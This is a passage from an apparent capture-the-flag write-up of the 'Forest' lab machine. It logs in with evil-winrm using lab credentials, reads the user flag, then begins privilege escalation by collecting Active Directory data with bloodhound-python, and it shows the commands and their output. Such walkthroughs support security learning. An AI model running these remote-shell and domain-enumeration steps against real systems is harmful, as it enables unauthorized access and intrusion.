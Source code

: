 ```
knytecode@parrot:~$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

Evil-WinRM shell v2.4
PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
PS C:\Users\svc-alfresco\Documents> cd ../Desktop
PS C:\Users\svc-alfresco\Desktop> type user.txt
e5e4e47ae7022664cda6eb013fb0d9ed
```

# Privilege Escalation
Now that we have valid credentials, we can use the awesome tool [BloodHound](https://github.com/BloodHoundAD/BloodHound) to visualise the AD environment and look for privilege escalation paths. 

_"BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Attackers can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify."_

First, we must run a script to gather data about the various objects (computers, users, groups .etc) in the domain using our new credentials. This outputs some JSON files which we can then import into BloodHound.
```
knytecode@parrot:~$ bloodhound-python -d htb.local -u svc-alfresco -p s3rvice -gc forest.htb.local -c all -ns 10.10.10.161
INFO: Found AD domain: htb.local
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: FOREST.htb.local
WARNING: Could not resolve SID: S-1-5-21-3072663084-364016917-1341370565-1153
INFO: Found 31 users
INFO: Found 75 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
INFO: Done in 00M 34S
```
Now we open up BloodHound and import the JSON files. Looking at the owned `svc-alfresco` user, we can see that it's a member of 9 groups through nested membership.
